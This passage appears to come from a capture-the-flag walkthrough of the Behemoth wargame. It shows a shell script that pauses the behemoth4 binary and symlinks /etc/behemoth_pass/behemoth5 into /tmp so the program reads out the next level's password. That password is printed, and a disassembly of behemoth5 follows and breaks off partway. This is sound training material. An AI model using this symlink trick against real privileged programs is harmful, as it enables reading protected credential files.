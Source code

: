 ```assembly
End of assembler dump.
```



from the assembly, we can find that the program is trying to read a file. So we can just link the file to the passed file, so we can read the passed

```shell
vi script

#! /bin/bash
/behemoth/behemoth4 &
my_pid=$!
kill -STOP $my_pid
ln -s /etc/behemoth_pass/behemoth5 /tmp/$my_pid
kill -CONT $my_pid
```

```shell
chmod +x script
./script

aizeeshing
```

## level5-level6

behemoth5: aizeeshing

```assembly
0804872b <main>:
 804872b:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 804872f:	83 e4 f0             	and    $0xfffffff0,%esp
 8048732:	ff 71 fc             	pushl  -0x4(%ecx)
 8048735:	55                   	push   %ebp
 8048736:	89 e5                	mov    %esp,%ebp
 8048738:	51                   	push   %ecx
 8048739:	83 ec 34             	sub    $0x34,%esp
 804873c:	c7 45 f4 00 00 00 00 	movl   $0x0,-0xc(%ebp)
 8048743:	83 ec 08             	sub    $0x8,%esp
 8048746:	68 a0 89 04 08       	push   $0x80489a0
 804874b:	68 a2 89 04 08       	push   $0x80489a2
 8048750:	e8 5b fe ff ff       	call   80485b0 <fopen@plt>
 8048755:	83 c4 10             	add    $0x10,%esp
 8048758:	89 45 f0             	mov    %eax,-0x10(%ebp)
 804875b:	83 7d f0 00          	cmpl   $0x0,-0x10(%ebp)
 804875f:	75 1a                	jne    804877b <main+0x50>
 8048761:	83 ec 0c             	sub    $0xc,%esp
 8048764:	68 bf 89 04 08       	push   $0x80489bf
 8048769:	e8 e2 fd ff ff       	call   8048550 <perror@plt>
 804876e:	83 c4 10             	add    $0x10,%esp
 8048771:	83 ec 0c             	sub    $0xc,%esp
 8048774:	6a 01                	push   $0x1
 8048776:	e8 f5 fd ff ff       	call   8048570 <exit@plt>
 804877b:	83 ec 04             	sub    $0x4,%esp
 804877e:	6a 02                	push   $0x2
 8048780:	6a 00                	push   $0x0
 8048782:	ff 75 f0             	pushl  -0x10(%ebp)
 8048785:	e8 b6 fd ff ff       	call   8048540 <fseek@plt>
 804878a:	83 c4 10             	add    $0x10,%esp
 804878d:	83 ec 0c             	sub    $0xc,%esp
 8048790:	ff 75 f0             	pushl  -0x10(%ebp)
 8048793:	e8 08 fe ff ff       	call   80485a0 <ftell@plt>
 8048798:	83 c4 10             	add    $0x10,%esp
 804879b:	89 45 f4             	mov    %eax,-0xc(%ebp)
```